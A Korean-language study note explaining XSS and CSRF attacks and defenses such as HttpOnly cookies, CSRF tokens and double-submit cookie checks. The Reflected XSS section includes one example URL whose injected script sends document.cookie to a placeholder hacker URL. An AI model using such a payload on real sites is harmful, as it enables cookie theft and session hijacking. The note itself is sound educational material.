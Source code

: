 # 04. XSS, CSRF Attack

## XSS Attack

XSS는 Cross-Site Scripting의 줄임말로 웹 사이트에 스크립트를 삽입하여 공격하는 방식입니다.

스크립트를 삽입하기 위해서 사용자가 글을 쓰고 읽을 수 있는 게시판 등에 많이 사용하며 이를 통해 다른 사용자의 쿠키를 탈취하여 세션ID를 사용하여 로그인할 수 도 있습니다.



### Persistent XSS

Persistent의 의미대로 지속적으로 피해를 입히는 XSS 공격 방식입니다.

예를 들어 해커의 악성 스크립트가 담긴 게시글이 DB에 저장되고, 다른 사용자들은 그 게시글을 읽을 때마다 지속적으로 공격을 받게 됩니다.



### Reflected XSS

사용자에게 입력받은 값을 서버에서 그대로 응답하는 경우 사용하는 XSS 공격 방식입니다.

예를 들어 해커가 URL 안에 악의적인 스크립트를 함께 첨부하여 해당 URL을 눌렀을 때 공격을 받게 됩니다.

``` 
http://mysite.com?search=<script>location.href("{해커의 URL}?value="+document.cookie);</script>
```



XSS 공격을 방지하는 방법에 대해 알아봅시다.

### HttpOnly

HttpOnly 옵션은 자바스크립트의 document.cookie를 이용해서 쿠키에 접속하는 것을 막는 옵션입니다.

악성 스크립트가 실행이 되더라도 해당 속성이 있다면 쿠키에 접근을 못하므로 쿠키의 탈취를 막을 수 있습니다.



## CSRF Attack

CSRF는 Cross Site Request Forgery의 줄임말로 사용자가 자신의 의도와 다른 행위를 요청하도록 하는 공격입니다.

여기서 말하는 자신의 의도와 다른 행위란 생성, 수정, 삭제 등을 말합니다.

예를 들어 자신의 개인 SNS 계정에 특정 광고를 기재 할 수 있는 것이죠.

사용자가 SNS에 로그인한 상태에서 해커가 의도한 페이지를 열게 되면 해당 페이지의 스크립트가 SNS에 글을 쓰게 하는 요청을 날리고, SNS는 로그인한 사용자이기 때문에 해당 요청을 문제없이 받아들이게 됩니다.



CSRF 공격을 방지하는 방법에 대해 알아봅시다.

### Referrer 검증

서버에서 request의 referrer을 확인하여 domain이 일치하는 지 검증하는 방법입니다.

하지만 같은 domain 내 페이지에 XSS 취약점이 있을 경우에는 referrer을 확인해도 CSRF 공격에 취약해질 수 밖에 없습니다.

> HTTP Referrer란
>
> 각각의 사이트에 방문 시 남는 흔적을 말합니다.
>
> A사이트에서 B사이트로 이동하는 하이퍼링크를 통해 이동할 때 B사이트에서 해당 유저가 A사이트를 통해 자신의 사이트에 방문한 사실을 알 수 있게 해줍니다.





### CSRF Token

CSRF 공격을 방지하기 위해 token을 사용하는 방법입니다.

사용자의 세션에 임의의 난수로 만들어진 token을 저장하고 사용자의 요청마다 해당 난수 값을 포함시켜 전송합니다.

 서버에서는 세션의 token과 사용자 요청의 token을 비교하여 공격을 방어합니다.





### Double Submit Cookie 검증

웹의 Same Origin 정책으로 인해 프론트에서 다른 domain의 쿠키 값에 접근할 수 없다는 점을 이용한 방법입니다.

요청을 보낼 때 임의의 난수로 만들어진 token을 쿠키에도 저장하고 파라미터로도 넘겨서 서버에서 두 값이 일치하는지 검사합니다.

> 주로 사용하는 프레임워크 Django가 이 방법을 사용합니다.
>
> 이 방법을 알기 전 까지는 위에서 언급한 `CSRF Token` 방법인지 알고 도대체 서버에서 언제 어디서 저장하는지 코드를 다 까봤던 기억이 있네요.





## 레퍼런스

https://noirstar.tistory.com/266

https://itstory.tk/entry/CSRF-%EA%B3%B5%EA%B2%A9%EC%9D%B4%EB%9E%80-%EA%B7%B8%EB%A6%AC%EA%B3%A0-CSRF-%EB%B0%A9%EC%96%B4-



## 질문할 사항



## 추가 공부할 키워드

* 다른 공격 방법들도 있을까